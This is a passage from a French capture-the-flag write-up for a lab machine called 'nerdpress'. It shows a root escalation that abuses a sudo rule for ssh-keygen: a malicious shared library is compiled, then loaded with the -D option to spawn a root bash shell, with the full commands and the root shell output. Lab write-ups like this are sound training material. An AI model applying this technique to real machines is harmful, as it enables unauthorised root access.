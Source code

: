 GTFO
----

Via ce mot de passe on peut obtenir la liste des commandes sudo autorisées :  

```plain
swozniak@nerdpress:~$ sudo -l 
[sudo] password for swozniak:  
Matching Defaults entries for swozniak on nerdpress: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User swozniak may run the following commands on nerdpress: 
    (root) /usr/bin/ssh-keygen
```

Evidemment si on peut utiliser *ssh-keygen* on peut créer une nouvelle clé pour root et c'est dans la poche, hmm ?  

Seulement la clé privée n'est pas affichée dans la console donc une fois la clé générée on ne peut pas la lire et je n'ai pas vu d'options dans la page de manuel qui provoquerait cet affichage ou effectuerait une backup de cette clé.  

Je m'en suis donc remis au site *GTFObins* [qui propose d'utiliser l'option -D du binaire permettant de charger une librairie](https://gtfobins.github.io/gtfobins/ssh-keygen/).  

J'avais réalisé une exploitation assez proche sur le CTF [/dev/random: k2 de VulnHub](http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub).  

J'ai écrit le code suivant :  

```c
#include <stdlib.h> 

void _init(void) { 
  system("/usr/bin/bash -p"); 
}
```

Compilé en local faute de gcc sur la VM :  

```bash
gcc -fPIC -c mylib.c
ld -shared -o mylib.so mylib.o
```

Une fois uploadé via sftp avec le tunnel ReveseSSH il ne reste plus qu'à passer root :  

```plain
swozniak@nerdpress:~$ sudo /usr/bin/ssh-keygen -D /tmp/mylib.so  
root@nerdpress:/home/swozniak# id 
uid=0(root) gid=0(root) groups=0(root) 
root@nerdpress:/home/swozniak# cd /root 
root@nerdpress:~# ls 
root.txt  snap 
root@nerdpress:~# cat root.txt 

 _______                   ._____________                                
 \      \   ___________  __| _/\______   \_______   ____   ______ ______ 
 /   |   \_/ __ \_  __ \/ __ |  |     ___/\_  __ \_/ __ \ /  ___//  ___/ 
/    |    \  ___/|  | \/ /_/ |  |    |     |  | \/\  ___/ \___ \ \___ \  
\____|__  /\___  >__|  \____ |  |____|     |__|    \___  >____  >____  > 
        \/     \/           \/                         \/     \/     \/  
           __________               __             .___                  
           \______   \ ____   _____/  |_  ____   __| _/                  
            |       _//  _ \ /  _ \   __\/ __ \ / __ |                   
            |    |   (  <_> |  <_> )  | \  ___// /_/ |                   
            |____|_  /\____/ \____/|__|  \___  >____ |                   
                   \/                        \/     \/                   

```